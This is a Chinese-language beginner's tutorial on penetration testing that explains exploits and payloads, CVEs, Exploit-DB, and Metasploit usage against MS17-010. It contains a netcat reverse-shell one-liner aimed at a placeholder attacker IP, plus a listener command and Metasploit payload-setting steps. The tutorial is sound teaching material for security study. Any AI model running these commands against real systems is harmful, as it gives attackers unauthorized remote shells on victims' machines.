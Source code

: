 # 漏洞利用和有效载荷

> 在本文中，我将介绍漏洞利用和有效载荷的基础知识，以及两者的区别。在每次渗透测试中，你大概率都会需要漏洞利用并使用有效载荷。

## 漏洞利用和有效载荷简介

一些初学者对漏洞利用和有效载荷的区别感到困惑。事实上，它们在漏洞利用过程中具有两个截然不同的功能。如果没有漏洞利用，就无法传递有效载荷，如果没有有效载荷，就无法获得shell。

## 漏洞利用

漏洞利用是一段旨在利用计算机系统中漏洞的代码。由于这个定义涵盖了各种类型的系统，因此每种漏洞利用看起来都不一样。这些漏洞通常存在于现实世界的系统中，因为IT管理员经常忘记或缺乏资源来保持系统完全更新。也可能存在尚未发现的漏洞！

### 漏洞利用的类型

漏洞利用有很多种类型，例如：

- 缓冲区溢出漏洞

- SQL注入漏洞

- 跨站脚本（XSS）漏洞

- 跨站请求伪造（CSRF）漏洞

- 权限提升漏洞

- 拒绝服务（Dos）漏洞

- 钓鱼漏洞

- 0 Day漏洞

- 文件包含漏洞

- 恶意软件和木马漏洞

再次强调，目前细节并不重要，重要的是记住漏洞利用是滥用漏洞的，而漏洞可以有很多种。

### CVE

最后需要介绍的一个名词时CVE的定义。CVE（Common Vulnerabilities and Exposures，通用漏洞与暴露）是指利用已知漏洞的特定攻击或代码实例，并被分配了一个CVE标识符。

这个CVE由中央机构（如 MITRE）在研究人员或其他参与者识别出漏洞后分配。一旦漏洞被发现并存在漏洞利用可能，负责的供应商或组织通常会开发并发布修复漏洞的补丁或安全更新。

一旦我们开始寻找漏洞利用，我们经常会遇到这些CVE。

### 寻找漏洞利用点

通常，我们可以通过以下方法来寻找漏洞利用点：

#### 1. 扫描目标网络：

使用诸如nmap类似工具扫描目标网络，获取其主机和服务的详细信息，包括版本号。

#### 2. 搜索漏洞利用：

通过，以下几种方式查找与扫描结果匹配的漏洞利用：

- **谷歌搜索：** 使用一些关键词进行搜索，例如目标系统和服务版本号+漏洞利用（exploit）。

- **Metasploit：** 使用`search`命令在Metasploit框架内搜索漏洞利用模块。

- **Exploit-DB网站：** [https://www.exploit-db.com](https://www.exploit-db.com) 该网站提供大量漏洞利用的详细信息，其中大部分都包含对应的CVE编号。

#### 3. 漏洞利用脚本

找到漏洞利用点后，你可以选择自己编写脚本利用漏洞，也可以从Exploit-DB等网站获取现成的脚本。

一个著名的漏洞利用案例是EternalBlue，它利用了SMB服务器中的漏洞：[https://www.exploit-db.com/exploits/42315](https://www.exploit-db.com/exploits/42315) 。这些漏洞利用脚本通常使用Python等语言编写，在使用前可能需要修改脚本中的端口号或IP地址。幸运的是，这些漏洞利用脚本通常都附有详细的文档说明。

另外，除了使用独立的漏洞利用脚本外，你还可以使用Metasploit框架来运行漏洞利用并植入有效载荷到目标系统。稍后我会介绍Metasploit的具体用法，现在让我们了解以下什么是有效载荷。

## 有效载荷

虽然漏洞利用是利用系统中的漏洞，但有效载荷是在成功利用系统后发送的一段代码。一个基本的有效载荷示例是建立一个反向shell到目标系统的代码。简单来说，它可能看起来像这样：

```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc <Attacker ip> <Attacker listener port> > /tmp/
```

这要求你在你的系统上运行一个监听器。一个基本的监听器可以通过运行以下命令建立：

```bash
nv -lvnp <port>
```

一旦有效载荷被触发，你将获得一个反向shell。

重要的是要理解，我们用来获取系统shell的有效载荷很大程度上取决于目标系统上的操作系统、shell解释器语言，甚至编程语言。

虽然有些有效载荷是一行代码并手动部署，如上所示，但有些是使用自动化攻击框架生成的，例如Metasploit。

### Metasploit 自动生成有效载荷

本文不会深入讨论Metasploit的所有细节，但对于初学者来说，它绝对是最简单地使用漏洞利用和有效载荷的方法。一般步骤如下：

你可以通过`search` 命令来搜索漏洞利用，例如：

```bash
search ms17-010
```

![](../img/0_uxAtWpmh7aTi3gF7.webp)

然后，使用`use <exploit id>` 选择漏洞利用。然后设置列出选项（`show option`）时所需的选项。

常用的参数有：

- **RHOSTS：** “远程主机”，目标系统的IP地址。可以设置单个IP地址或网络范围。你还可以使用一个文件，其中列出了目标，每个目标一行，使用`file:/path/of/the/target_file.txt` 。

- **RPORT：** “远程端口”，目标系统上运行漏洞应用程序的端口。

- **LHOST：** “本地主机”，攻击机器（你的攻击盒子或Kali Linux）的IP地址。

- LPORT：“本地端口”，你将用于反向shell连接回的端口。这是攻击机器上的一个端口。

你可以通过运行`set <参数名称> <值>` 来设置这些参数。

![](../img/0_PI4oKf2qg8i_NmQf.webp)

一旦你设置了漏洞利用选项，就可以选择要使用的有效载荷。Metasploit中有两种不同类型的有效载荷：

- **Singles：** 自包含的有效载荷（添加用户、启动notepad.exe等）,不需要下载额外的组件即可运行。

- **Staged：** 分阶段的有效载荷首先在目标系统上上传一个启动器，然后下载其余的有效载荷（阶段）。这提供了一些优势，因为有效载荷的初始大小相对较小，使得有效载荷不太可能被发现。

使用`show payloads` 命令列出所选漏洞的利用模块可用的有效载荷。你可能想知道有效载荷是分阶段的还是单一的。如果我们查看：`windows/shell/reverse_tcp` 和 `windows/shell_reverse_tcp`，带有正斜杠的是“分阶段”有效载荷，带下划线的是“单一”有效载荷。

一旦你找了喜欢的有效载荷，可以使用`set payload` 命令，后跟要使用的有效载荷名称。

```bash
set payload windows/meterpreter/reverse_tcp
```

当你完成所有设置后，就可以运行了。

![](../img/0_JrGXTONNWSaip72w.webp)

一旦成功利用漏洞，就会创建一个会话。这是目标系统和Metasploit之间建立的通信通道。现在你可以提升你的权限了。

还有一点需要注意，你也可以使用Metasploit框架中的MSFvenom创建自己的有效载荷。如果我们没有与目标的直接网络连接，并且需要通过电子邮件等方式传递有效载荷，MSfvenom是一个很好的选择。MSfvenom只创建有效载荷文件，而不提供像Metasploit这样的其他漏洞利用自动化选项。

## 总结

在本文中，我们介绍了漏洞利用和有效载荷的含义。

1. **漏洞利用：** 
- 漏洞利用是一段代码或一种技术，利用计算机系统或软件应用程序中的漏洞或者弱点。

- 其主要的目的是获得未经授权的访问、控制或破坏目标系统。
2. **有效载荷：** 
- 相反，有载荷是在成功利用漏洞后攻击者传递给受损系统的恶意代码或操作。

- 有效载荷的目的可以多种多样，从窃取数据到创建后门以进行未来的访问，甚至造成系统的损坏。
3. **Metasploit：**
- Metasploit 是一个用来自动化运行漏洞利用和有效载荷并获取系统访问权限的框架。

- 虽然，Metasploit对初学者来说很棒，但是不要过于依赖它，因为学习如何在没有这个强大框架的情况下了解一切工作原理是一个更好的选择。
